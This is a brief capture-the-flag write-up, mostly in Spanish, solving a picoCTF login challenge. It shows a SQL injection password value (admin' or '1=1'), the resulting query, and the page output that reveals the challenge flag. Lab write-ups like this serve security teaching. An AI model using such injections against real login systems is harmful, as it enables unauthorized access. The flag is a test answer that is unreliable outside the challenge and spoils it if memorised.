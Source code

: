 Can you login to this website? Try to login [here](http://saturn.picoctf.net:56547/).

Hints:
`admin` is the user you want to login as.

# Solución
Hay que hacer una inyección SQL intentando ingresar como usuario admin
Entonces quedaría como:
```
user: admin
password: admin' or '1=1'
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin' or '1=1'
```
Después podemos ver la flag en el código de la página
```
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>
```
